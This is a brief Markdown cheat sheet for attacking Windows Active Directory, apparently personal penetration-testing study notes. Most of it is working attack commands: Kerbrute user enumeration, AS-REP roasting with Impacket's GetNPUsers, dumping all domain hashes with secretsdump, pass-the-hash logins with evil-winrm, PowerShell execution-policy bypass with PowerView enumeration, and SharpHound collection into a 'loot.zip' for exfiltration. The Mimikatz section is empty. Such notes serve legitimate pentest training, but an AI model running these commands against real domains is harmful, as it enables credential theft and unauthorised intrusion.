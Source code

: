 # Active Directory Cheatsheet     
## Resources      
[WADComs](https://wadcoms.github.io/)      

## General Tools  
[Impacket](https://github.com/SecureAuthCorp/impacket)   
[evil-winrm](https://github.com/nubix/evil-winrm)    

## Kerberos (Port 88)   
[Kerbrute](https://github.com/ropnop/kerbrute), [Rubeus](https://github.com/GhostPack/Rubeus)   

    ./kerbrute userenum userlist.txt -d [name] --dc [name]     

Get a list of valid users: ASREProasting to see if any of them do not have pre-auth set and can request a Kerberos ticket without a password. Crack hashes with hashcat        

    python3 /usr/share/doc/python3-impacket/examples/GetNPUsers.py domain.local/ -no-pass -usersfile users.txt         
    
If you have creds for the backup account for domain controller: can dump all hashes (has full     
    python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -just-dc backup:backuppassword@domain.local
    
Pass the Hash: use psexec or evil-winrm to login with username/ hash (doesn't neeed to be cracked)    

    evi-winrm -i 127.0.0.1 -u username -H [NTLM hash]        

## Post Exploitation    
### PowerView   
Powershell script to enum domain after gaining admin access to machine   

[PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)   
[PowerView Cheat Sheet](https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993)    
[Cheat sheet](https://hackersinterview.com/oscp/oscp-cheatsheet-powerview-commands/)   

    powershell -ep bypass   
    . .\PowerView.ps1   
    Get-NetDomain   
    Get-NetUser   
    Get-NetComputer -fulldata   
    
## Bloodhound    
[Bloodhound](https://github.com/BloodHoundAD/BloodHound)   
Bloodhound - GUI app installed on attack box, SharpHound - powershell script to enum and collect data -> exfiltrate as a zip file.     

    apt-get install bloodhound     

on victim, transfer file then import into Bloodhound and run queries   
    . .\SharpHound.ps1   
    Invoke-Bloodhound -CollectionMethod All -Domain CONTROLLER.local -ZipFileName loot.zip        
    
## Mimikatz  

[Online Password Cracker - Crackstation](https://crackstation.net/)   
    





